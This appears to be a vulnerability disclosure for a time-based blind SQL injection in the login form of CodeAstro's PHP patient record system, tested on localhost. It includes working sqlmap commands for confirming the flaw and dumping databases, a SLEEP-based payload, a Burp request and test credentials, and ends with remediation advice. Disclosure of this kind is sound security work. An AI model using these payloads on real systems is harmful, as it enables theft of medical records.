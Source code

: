 # 🧾 Vulnerability Report – SQL Injection in PRMS Login Portal

**Author:** Subhash Paudel  
**Date:** 29 June 2025  
**Source:** `https://codeastro.com/patient-record-management-system-in-php-mysql-with-source-code/`
**Target URL:** `http://localhost/PRMS-php/login.php`  
**Project Source:** CodeAstro  
**Version:** 1.0  
**Severity:** Critical  
**Technology Stack:** Apache 2.4.58, PHP 8.0.30, MariaDB (MySQL ≥ 5.0.12)

---

## 🧩 Summary

A **Time-Based Blind SQL Injection** vulnerability was discovered in the login portal of the Patient Record Management System (PRMS), developed by CodeAstro. The vulnerability allows unauthenticated attackers to inject arbitrary SQL commands, enabling unauthorized access, data extraction, and potentially full compromise of the database.

---

## 🔐 Authentication (For Testing)

- **Username:** `liam`  
- **Password:** `Password@123`  
- **Login Page:** [http://localhost/PRMS-php/](http://localhost/PRMS-php/)

![Login Page](https://github.com/user-attachments/assets/df0a6607-4320-411b-b80e-8864e66a7574)

---

## 🚨 Vulnerable Endpoint

| HTTP Method | Endpoint URL                          | Affected Parameter |
|-------------|----------------------------------------|--------------------|
| POST        | `http://localhost/PRMS-php/login.php` | `uname`            |

---

## ⚙️ Automated Exploitation (SQLMap)

```bash
sqlmap -u "http://localhost/PRMS-php/login.php?uname=test" \
--data="uname=test&psw=123" --batch --level=5 --risk=3
```
![image](https://github.com/user-attachments/assets/dacd08b7-c05e-49c7-979b-c9ef2c2386c6)

**SQLMap Result:**
- Injection Type: **Time-Based Blind**
- DBMS: **MySQL (MariaDB)**
- Injection Confirmed

**Payload Used:**
```sql
uname=admin41839116' AND (SELECT 8601 FROM (SELECT(SLEEP(5)))pSRM) AND 'eHel'='eHel&psw=Password@123
```

### 📂 Database Dump Example

To dump the databases:
```bash
sqlmap -u "http://localhost/PRMS-php/login.php" \
--data="uname=admin&psw=Password@123" \
--dbs --batch
```

![SQLMap Dump](https://github.com/user-attachments/assets/6d6e6756-e4ad-47eb-b887-a8daf0d43ab5)

---

## 🧪 Manual Exploitation (For Educational Purposes Only)

### 1. Intercept the Request
- Use Burp Suite to capture login request with dummy credentials:
```http
POST /PRMS-php/login.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded

uname=admin&psw=Password@123
```
![Burp Repeater Payload](https://github.com/user-attachments/assets/d1995966-8ffc-43f8-8f9c-96587855745b)


### 2. Modify the Payload in Burp Repeater
Change `uname` to:
```sql
admin41839116' AND (SELECT 8601 FROM (SELECT(SLEEP(5)))pSRM) AND 'eHel'='eHel
```

### 3. Send and Observe
Click **Send** in Repeater. A **5-second delay** confirms the injection point.

![Burp Delay Response](https://github.com/user-attachments/assets/00ff9b95-837b-4aae-a847-b16edde12bf0)

---

## ⚠️ Security Risks

| Risk                        | Description                                                                 |
|-----------------------------|-----------------------------------------------------------------------------|
| Unauthorized Access         | Bypass authentication and log in as any user including administrators.      |
| Data Breach                 | Dump sensitive user, patient, or medical records.                          |
| System Compromise           | Modify or delete records, inject malicious data, or gain RCE (indirectly). |
| Regulatory Non-compliance   | May violate HIPAA, GDPR, or other data protection laws.                    |

---

## 🛡️ Mitigation & Recommendations

| Type            | Recommendation                                                                 |
|-----------------|---------------------------------------------------------------------------------|
| Input Validation| Use parameterized queries / prepared statements in PHP (e.g., PDO or MySQLi).  |
| WAF             | Deploy a Web Application Firewall to block SQLi patterns.                      |
| Least Privilege | Restrict DB user permissions; avoid using root-level DB users for apps.        |
| Logging         | Log all failed login attempts and monitor for injection patterns.              |
| Secure Errors   | Disable verbose error messages that could help attackers.                      |
| Code Review     | Conduct manual code review and static analysis for user input handling.        |

---

## 🏁 Conclusion

This SQL injection flaw is highly exploitable and critically dangerous. It can result in full database compromise without authentication. Immediate remediation is strongly advised.

---

## 📚 References

- [OWASP SQL Injection Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [SQLMap Official Documentation](https://github.com/sqlmapproject/sqlmap/wiki)
- [CWE-89: Improper Neutralization of Special Elements used in an SQL Command](https://cwe.mitre.org/data/definitions/89.html)
